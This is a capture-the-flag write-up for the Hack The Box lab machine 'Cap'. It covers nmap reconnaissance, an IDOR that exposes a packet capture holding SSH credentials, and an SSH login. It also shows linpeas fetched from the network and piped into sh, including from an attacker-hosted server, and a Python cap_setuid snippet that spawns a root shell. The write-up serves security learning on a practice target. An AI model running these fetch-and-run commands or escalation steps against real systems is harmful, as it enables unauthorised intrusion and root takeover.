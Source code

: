 # Cap Write-up

<img src="https://labs.hackthebox.com/storage/avatars/70ea3357a2d090af11a0953ec8717e90.png" width="200" height="200">

## Recon 

### Port enumeration with NMap

`nmap -sC -sV 10.10.10.245`

    PORT   STATE SERVICE VERSION
    21/tcp open  ftp     vsftpd 3.0.3
    22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
    | ssh-hostkey: 
    |   3072 fa:80:a9:b2:ca:3b:88:69:a4:28:9e:39:0d:27:d5:75 (RSA)
    |   256 96:d8:f8:e3:e8:f7:71:36:c5:49:d5:9d:b6:a4:c9:0c (ECDSA)
    |_  256 3f:d0:ff:91:eb:3b:f6:e1:9f:2e:8d:de:b3:de:b2:18 (ED25519)
    80/tcp open  http    gunicorn
    |_http-title: Security Dashboard
    | fingerprint-strings: 
    |   FourOhFourRequest: 
    |     HTTP/1.0 404 NOT FOUND
    |     Server: gunicorn
    |     Date: Tue, 03 Dec 2024 11:35:14 GMT
    |     Connection: close
    |     Content-Type: text/html; charset=utf-8
    |     Content-Length: 232
    |     <!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 3.2 Final//EN">
    |     <title>404 Not Found</title>
    |     <h1>Not Found</h1>
    |     <p>The requested URL was not found on the server. If you entered the URL manually please check your spelling and try again.</p>
    |   GetRequest: 
    |     HTTP/1.0 200 OK
    |     Server: gunicorn
    |     Date: Tue, 03 Dec 2024 11:35:05 GMT
    |     Connection: close
    |     Content-Type: text/html; charset=utf-8
    |     Content-Length: 19386
    |     <!DOCTYPE html>
    |     <html class="no-js" lang="en">
    |     <head>
    |     <meta charset="utf-8">
    |     <meta http-equiv="x-ua-compatible" content="ie=edge">
    |     <title>Security Dashboard</title>
    |     <meta name="viewport" content="width=device-width, initial-scale=1">
    |     <link rel="shortcut icon" type="image/png" href="/static/images/icon/favicon.ico">
    |     <link rel="stylesheet" href="/static/css/bootstrap.min.css">
    |     <link rel="stylesheet" href="/static/css/font-awesome.min.css">
    |     <link rel="stylesheet" href="/static/css/themify-icons.css">
    |     <link rel="stylesheet" href="/static/css/metisMenu.css">
    |     <link rel="stylesheet" href="/static/css/owl.carousel.min.css">
    |     <link rel="stylesheet" href="/static/css/slicknav.min.css">
    |     <!-- amchar
    |   HTTPOptions: 
    |     HTTP/1.0 200 OK
    |     Server: gunicorn
    |     Date: Tue, 03 Dec 2024 11:35:06 GMT
    |     Connection: close
    |     Content-Type: text/html; charset=utf-8
    |     Allow: OPTIONS, HEAD, GET
    |     Content-Length: 0
    |   RTSPRequest: 
    |     HTTP/1.1 400 Bad Request
    |     Connection: close
    |     Content-Type: text/html
    |     Content-Length: 196
    |     <html>
    |     <head>
    |     <title>Bad Request</title>
    |     </head>
    |     <body>
    |     <h1><p>Bad Request</p></h1>
    |     Invalid HTTP Version &#x27;Invalid HTTP Version: &#x27;RTSP/1.0&#x27;&#x27;
    |     </body>
    |_    </html>
    |_http-server-header: gunicorn
    1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
    SF-Port80-TCP:V=7.94SVN%I=7%D=12/3%Time=674EECE9%P=x86_64-pc-linux-gnu%r(G
    SF:etRequest,2F4C,"HTTP/1\.0\x20200\x20OK\r\nServer:\x20gunicorn\r\nDate:\
    SF:x20Tue,\x2003\x20Dec\x202024\x2011:35:05\x20GMT\r\nConnection:\x20close
    SF:\r\nContent-Type:\x20text/html;\x20charset=utf-8\r\nContent-Length:\x20
    SF:19386\r\n\r\n<!DOCTYPE\x20html>\n<html\x20class=\"no-js\"\x20lang=\"en\
    SF:">\n\n<head>\n\x20\x20\x20\x20<meta\x20charset=\"utf-8\">\n\x20\x20\x20
    SF:\x20<meta\x20http-equiv=\"x-ua-compatible\"\x20content=\"ie=edge\">\n\x
    SF:20\x20\x20\x20<title>Security\x20Dashboard</title>\n\x20\x20\x20\x20<me
    SF:ta\x20name=\"viewport\"\x20content=\"width=device-width,\x20initial-sca
    SF:le=1\">\n\x20\x20\x20\x20<link\x20rel=\"shortcut\x20icon\"\x20type=\"im
    SF:age/png\"\x20href=\"/static/images/icon/favicon\.ico\">\n\x20\x20\x20\x
    SF:20<link\x20rel=\"stylesheet\"\x20href=\"/static/css/bootstrap\.min\.css
    SF:\">\n\x20\x20\x20\x20<link\x20rel=\"stylesheet\"\x20href=\"/static/css/
    SF:font-awesome\.min\.css\">\n\x20\x20\x20\x20<link\x20rel=\"stylesheet\"\
    SF:x20href=\"/static/css/themify-icons\.css\">\n\x20\x20\x20\x20<link\x20r
    SF:el=\"stylesheet\"\x20href=\"/static/css/metisMenu\.css\">\n\x20\x20\x20
    SF:\x20<link\x20rel=\"stylesheet\"\x20href=\"/static/css/owl\.carousel\.mi
    SF:n\.css\">\n\x20\x20\x20\x20<link\x20rel=\"stylesheet\"\x20href=\"/stati
    SF:c/css/slicknav\.min\.css\">\n\x20\x20\x20\x20<!--\x20amchar")%r(HTTPOpt
    SF:ions,B3,"HTTP/1\.0\x20200\x20OK\r\nServer:\x20gunicorn\r\nDate:\x20Tue,
    SF:\x2003\x20Dec\x202024\x2011:35:06\x20GMT\r\nConnection:\x20close\r\nCon
    SF:tent-Type:\x20text/html;\x20charset=utf-8\r\nAllow:\x20OPTIONS,\x20HEAD
    SF:,\x20GET\r\nContent-Length:\x200\r\n\r\n")%r(RTSPRequest,121,"HTTP/1\.1
    SF:\x20400\x20Bad\x20Request\r\nConnection:\x20close\r\nContent-Type:\x20t
    SF:ext/html\r\nContent-Length:\x20196\r\n\r\n<html>\n\x20\x20<head>\n\x20\
    SF:x20\x20\x20<title>Bad\x20Request</title>\n\x20\x20</head>\n\x20\x20<bod
    SF:y>\n\x20\x20\x20\x20<h1><p>Bad\x20Request</p></h1>\n\x20\x20\x20\x20Inv
    SF:alid\x20HTTP\x20Version\x20&#x27;Invalid\x20HTTP\x20Version:\x20&#x27;R
    SF:TSP/1\.0&#x27;&#x27;\n\x20\x20</body>\n</html>\n")%r(FourOhFourRequest,
    SF:189,"HTTP/1\.0\x20404\x20NOT\x20FOUND\r\nServer:\x20gunicorn\r\nDate:\x
    SF:20Tue,\x2003\x20Dec\x202024\x2011:35:14\x20GMT\r\nConnection:\x20close\
    SF:r\nContent-Type:\x20text/html;\x20charset=utf-8\r\nContent-Length:\x202
    SF:32\r\n\r\n<!DOCTYPE\x20HTML\x20PUBLIC\x20\"-//W3C//DTD\x20HTML\x203\.2\
    SF:x20Final//EN\">\n<title>404\x20Not\x20Found</title>\n<h1>Not\x20Found</
    SF:h1>\n<p>The\x20requested\x20URL\x20was\x20not\x20found\x20on\x20the\x20
    SF:server\.\x20If\x20you\x20entered\x20the\x20URL\x20manually\x20please\x2
    SF:0check\x20your\x20spelling\x20and\x20try\x20again\.</p>\n");
    Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

### WEB 

![image](https://github.com/user-attachments/assets/ad734ab8-84dc-47ab-95aa-957270f3dd59)

IP config

![image](https://github.com/user-attachments/assets/f92207a3-25e2-4916-9916-64f7a61cc292)

Security Snapshot

![image](https://github.com/user-attachments/assets/e9e48544-a992-4873-ab77-2ff74b04ffeb)

## Exploitation 

### IDOR

We can see data `ID` at the URL, try to change ID number to `0`.

http://10.10.10.245/data/0

![image](https://github.com/user-attachments/assets/3a7f9411-16db-4c4d-8934-b43ee62cb419)

Download the traffic packets and see what's interesting about it.

0.pcap

![image](https://github.com/user-attachments/assets/54407fd9-171b-410c-93ba-183c870c7876)

Credentials for FTP and SSH.

`nathan`:`Buck3tH4TF0RM3!`

### SSH

Connect to SSH via `nathan` credetials!

    ssh nathan@10.10.10.245

Get the user flag!

![image](https://github.com/user-attachments/assets/6dc06f66-6358-4971-9cf8-d16cfc49df59)

### Privelege Escalation 

[LinPeas](https://github.com/peass-ng/PEASS-ng/tree/master/linPEAS)

[![asciicast](https://asciinema.org/a/250532.png)](https://asciinema.org/a/309566)

You can run linpeas from github

    curl -L https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh | sh

Or get it localy and run it. 

    # on host
    wget https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh

    python3 -m http.server 80

    # on victim

    curl -l http://your-address/linpeas.sh | sh

![image](https://github.com/user-attachments/assets/7f6cffe7-c8c8-4f44-b84a-e6701aa460f9)

Now we can see `cap_setuid` capabiliries, it allows to make arbitrary manipulations with UID process.

It means that `cap_setuid` allows to changing of the UID (user ID).

We can set the UID to 0. That means we can run our command as a root.

So, run the folowing commands in server's python to get a root permission.

    import os
    os.setuid(0)
    os.system("/bin/bash")

![image](https://github.com/user-attachments/assets/358bf82f-c230-4527-8cd4-1a560104a1b5)

Get the root flag!

![image](https://github.com/user-attachments/assets/776e3744-fc39-43ab-8039-0642018e9647)
